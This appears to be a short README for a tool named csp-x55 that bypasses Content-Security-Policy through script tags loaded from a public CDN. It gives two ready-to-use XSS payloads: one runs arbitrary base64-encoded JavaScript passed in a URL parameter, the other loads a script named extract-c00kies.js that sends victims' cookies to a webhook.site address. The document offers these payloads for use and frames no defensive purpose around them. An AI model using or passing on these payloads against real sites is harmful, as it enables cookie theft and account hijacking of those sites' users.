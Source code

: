 # csp-x55
Content-Security-Policy XSS

Example usage using `alert('xss');` in base64 `YWxlcnQoJ3hzcycpOw==`
```html
<script src="https://cdn.jsdelivr.net/gh/gramthanos/csp-x55@b983bf3b472cbe70c18209ac35ccb80bf73ca2d4/x55.js?c=YWxlcnQoJ3hzcycp">
```

```html
<script src="https://cdn.jsdelivr.net/gh/gramthanos/csp-x55@766f06154617964de53410b6aa7ff02459b4925e/extract-c00kies.js" r="https://webhook.site/youridhere"></script>
```
